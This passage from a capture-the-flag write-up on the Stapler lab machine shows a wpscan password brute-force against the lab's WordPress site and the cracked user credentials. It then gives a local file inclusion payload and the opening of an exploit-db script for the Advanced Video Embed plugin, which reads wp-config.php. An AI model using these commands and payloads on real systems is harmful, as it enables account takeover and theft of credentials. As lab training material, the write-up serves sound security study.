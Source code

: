 ```sh
wpscan --url https://192.168.211.148:12380/blogblog/ --disable-tls-checks -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
```

```text
garry:footbal
harry:monkey
scott:cookie  
```

Unfortunately none of the above users are administrators, we need admin account to get initial foothold.

## More Recon

https://192.168.208.148:12380/blogblog/wp-content/

![img](/assets/images/CTF/Proving_Grounds/Stapler/content.png)

The plugin advanced-video-embed is vulnerable to [WordPress Plugin Advanced Video 1.0 - Local File Inclusion](https://www.exploit-db.com/exploits/39646).

### Exploitation

Use the below exploit code, the one in the above throws ssl error due to the target website configuration.

```py
#!/usr/bin/env python

# Exploit Title: Advanced-Video-Embed Arbitrary File Download / Unauthenticated Post Creation
# Google Dork: N/A
# Date: 04/01/2016
# Exploit Author: evait security GmbH
# Vendor Homepage: arshmultani - http://dscom.it/
# Software Link: https://wordpress.org/plugins/advanced-video-embed-embed-videos-or-playlists/
# Version: 1.0
# Tested on: Linux Apache / Wordpress 4.2.2

# POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

# Exploit - Print the content of wp-config.php in terminal (default Wordpress config)

import random
import urllib2
import re
```